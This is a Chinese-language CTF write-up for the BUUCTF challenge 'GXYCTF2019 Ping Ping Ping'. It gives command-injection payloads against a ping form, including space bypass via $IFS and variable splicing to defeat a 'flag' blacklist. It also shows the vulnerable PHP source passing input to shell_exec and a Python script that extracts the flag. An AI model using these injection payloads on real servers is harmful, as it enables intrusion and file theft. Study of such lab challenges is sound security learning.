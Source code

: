 # 分析

来自[[GXYCTF2019]Ping Ping Ping](https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping)

提示也是ping，前一题是post请求，这题应该是get请求，payload=`127.0.0.1|ls`

![image-20240625202233593](image/image-20240625202233593.png)

发现有两个php，我尝试访问，不出意料无法，提示被过滤了

经过多次尝试，好像把空格过滤了，尝试空格绕过payload=`?ip=127.0.0.1;cat$IFS$1index.php`，得到源码分析都过滤了啥

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){ //这里正则表达式，可使用提前设置变量绕过
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```



# exp

```python
import requests
import re

url = "http://b9fd5336-301f-4ec7-80bd-77c0968d255d.node5.buuoj.cn:81/"
kw={
  'ip':'127.0.0.1;a=g;cat$IFS$1fla$a.php'  #绕过空格和flag贪婪匹配
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

